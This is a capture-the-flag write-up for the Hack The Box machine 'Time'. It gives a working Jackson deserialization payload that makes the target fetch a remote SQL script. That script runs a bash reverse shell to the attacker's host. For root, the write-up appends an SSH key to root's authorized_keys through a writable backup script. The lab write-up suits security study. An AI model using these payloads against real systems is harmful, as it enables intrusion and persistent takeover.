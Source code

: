time

# TIME HTB [ 10.10.10.214 ]

## Foothold

The validation part of this application seems to be in the beta mode. There is a possibility of json deserialization attack.

![92c06df4d86de612178b44a7efde5152.png](../_resources/fadf1e2772d045b7a314f0a6953986fd.png)

Let's try breaking it down.
```bash
Provided data: {"":""}

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object"

```
It clearly tells that it needs json array as an input !

```bash
Provided data: [""]

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id '' as a subtype of [simple type, class java.lang.Object]: no such class found"
```

### Google is your friend !!!

After few failed attempts, finally found a working exploit for this version.

![c4c3c2a1e789e991b53396d3fd0c91dc.png](../_resources/d6b6598c1a114786bc59d7837c71c35a.png)


## Proof of vulnerability 
*"ch.qos.logback.core.db.DriverManagerConnectionSource"* is a vulnerable gadget that can be used to deserialize and execute code in the target machine.
```bash
Provided data: ["ch.qos.logback.core.db.DriverManagerConnectionSource"]

Error: "Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `ch.qos.logback.core.db.DriverManagerConnectionSource` out of END_ARRAY token"
```

```bash
Gadget used:
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.205:8000/inject.sql'"}]
```
### inject.sql
Changed the inject.sql file from the actual github exploit, since it returned slow query error. And I haven't got any shells. I thought that there might be no "nc" in target machine. So I attempted for a reverse shell using bash.
```bash
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.205/4444 0>&1 &')
```

## User

![6063edbf48c267c1c4a089c142f1d898.png](../_resources/ae489bcbcc9049c4a9722ed6c6466057.png)

Finally got the user shell !!!!! :P

```bash
pericles@time:/home/pericles$ cat user.txt
e729a43261e31ef9928a1df2d50a87de
```
Before trying to escalate privileges, I decided to upgrade my dumb-shell into interactive shell for some reason.
## Root

Enumerating using linpeas revealed a file with write access to the `pericles`. It is located in `/usr/bin/timer_backup.sh`. I tried to add few custom commands in the script to copy the `root.txt` flag into `/tmp/pwned`, but it didn't work for some reason.

So I tried to copy my SSH `public_key` into the root user's `authorized_keys` 

```bash
pericles@time:/home/pericles/.ssh$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
cat /home/pericles/.ssh/id_rsa.pub >> /root/.ssh/authorized_keys
```
And then after 10 mins of wait, I tried to SSH into the root user account. 

```bash
pericles@time:/home/pericles/.ssh$ ssh root@localhost
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 05 Dec 2020 06:35:00 PM UTC

  System load:             0.49
  Usage of /:              21.0% of 29.40GB
  Memory usage:            17%
  Swap usage:              0%
  Processes:               244
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4a10


83 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Sat Dec  5 18:22:53 2020 from 127.0.0.1
root@time:~# cat root.txt
901a2df4dc5d03e3f8c9f1a3cb0338d7

```

## References

- https://github.com/jas502n/CVE-2019-12384
- https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/



